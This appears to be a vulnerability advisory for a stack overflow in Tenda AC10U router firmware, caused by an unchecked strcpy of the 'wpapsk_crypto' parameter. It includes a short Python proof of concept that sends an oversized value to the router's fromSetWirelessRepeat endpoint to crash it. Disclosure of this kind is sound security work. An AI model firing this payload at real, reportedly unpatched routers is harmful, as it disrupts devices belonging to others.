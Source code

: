 # Tenda AC10U v1.0 US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01 was discovered to contain a stack overflow via the wpapsk_crypto parameter in the fromSetWirelessRepeat function.

## Vulnerability Description

Vendor: Tenda

Product: AC10U

Version: US_AC10UV1.0RTL_V15.03.06.49_multi_TDE01

Type: Buffer Overflow

Firmware link: https://www.tendacn.com/download/detail-3795.html

## Vulnerability Details

The function "fromSetWirelessRepeat" retrieves the parameter "wpapsk_crypto" using "websGetVar",  the value of "wpapsk_crypto" is passed into function strcpy without any length check, and stored in "wpapsk_cryptovalue_0". It can cause a stack overflow if the size of the data we enter exceeds the size of "wpapsk_cryptovalue_0".

![1705413534215](image/fromSetWirelessRepeat/1705413534215.png)

![1705413554510](image/fromSetWirelessRepeat/1705413554510.png)

## **Recurring vulnerabilities and POC**

```python
import requests
ip = '192.168.159.128'
url = f'http://{ip}/goform/fromSetWirelessRepeat'
payload = {
    "wpapsk_crypto": 'a'*0x500
}
res = requests.post(url=url, data=payload)
print(res.content)

```

## Solution

The vendor has not yet provided a fix for the vulnerability, please watch the vendor's homepage for updates:
https://www.tendacn.com/product/specification/ac10u.html
